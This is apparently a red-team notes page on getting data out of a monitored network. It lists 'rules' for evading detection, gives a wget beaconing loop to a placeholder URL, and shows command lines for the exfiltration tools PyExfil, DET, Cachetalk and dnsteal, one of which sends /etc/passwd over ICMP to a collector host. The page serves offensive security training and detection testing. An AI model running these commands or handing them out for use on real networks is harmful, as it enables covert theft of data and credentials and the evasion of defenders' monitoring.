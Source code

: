 # Exfiltration

## Exfiltration

Various ways to get information out of the network.

### Ten Commandments of Exfiltration

#### Five Assumptions of Exfiltration

1. Monitoring is perfect
2. Reputation is checked
3. Encryption stripping is in place
4. Monitoring and analysis is at a commercial level
5. Blind proactive countermeasures may affect exfiltration

#### Five Rules of Exfiltration

1. Do not use obfuscation
2. Use web protocols
3. Use innocuous techniques
4. Sending and receiving time is synchronized
5. Manual mechanisms can be used

### Beaconing

* A beacon is a malicious form of "heartbeat"
* Beacons may just indicate their existence
* Beacons may trigger tasking from the C\&C server
* Sophisticated beacons vary their calling schedule
* Beacons commonly use HTTP/HTTPS
* Use legitimate and innocuous traffic
* Sophisticated beacons may use multiple destinations

#### Example

```bash
while true; do wget -O /dev/null http://<URL>/; sleep 10; done;
```

There are other beacon simulators online such as on GitHub.

### PyExfil

[https://github.com/ytisf/PyExfil](https://github.com/ytisf/PyExfil)

Using PyExfil to exfiltrate over HTTPS

```bash
# Two terminals used
# Terminal 1 (Collector)
python https_server.py
# Terminal 2 (Target)
python https_client.py
```

### DET

[https://github.com/sensepost/DET](https://github.com/sensepost/DET)

```bash
# Two terminals used
# Terminal 1 (Collector - ICMP Server)
python det.py -c ./config-sample.json -p icmp -L
# Terminal 2 (Target - Exfiltrating data - ICMP Client)
python det.py -c ./config-sample.json -p icmp -f /etc/passwd
```

### Cachetalk

[https://github.com/SafeBreach-Labs/cachetalk](https://github.com/SafeBreach-Labs/cachetalk)

```bash
python covert.py -t http://<URL>/
# Two terminals used
# Terminal 1
python covert.py -w stuff http://<URL>/ 10 -s -1
# Terminal 2
python covert.py -r 10 http://<URL>/ 10 -s -1
```

### DNS Exfiltration

#### dnsteal

[https://github.com/m57/dnsteal](https://github.com/m57/dnsteal)

```bash
python dnsteal.py <IP> -z -v
# From target

```

### OpenPuff

[https://www.darknet.org.uk/2017/07/openpuff-professional-steganography-tool/](https://www.darknet.org.uk/2017/07/openpuff-professional-steganography-tool/)

Video exfiltration
